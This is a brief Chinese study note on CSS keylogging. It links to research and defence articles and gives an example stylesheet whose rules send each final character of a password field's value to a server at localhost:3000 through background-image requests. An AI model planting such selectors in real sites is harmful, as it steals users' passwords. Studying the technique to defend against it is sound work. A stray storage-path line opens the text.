 # css track

## 参考
- [CrookedStyleSheets](https://github.com/jbtronics/CrookedStyleSheets/blob/master/docs/README.zh.md)
- [介绍CSS-Keylogging](https://github.com/maxchehab/CSS-Keylogging)
- [防范CSS-Keylogging](https://juejin.im/post/5c2d68965188250baa55c3e2)

## 实例
```css
input[type="password"][value$="a"] {
  background-image: url("http://localhost:3000/a");
}
input[type="password"][value$="b"] {
  background-image: url("http://localhost:3000/b");
}
```

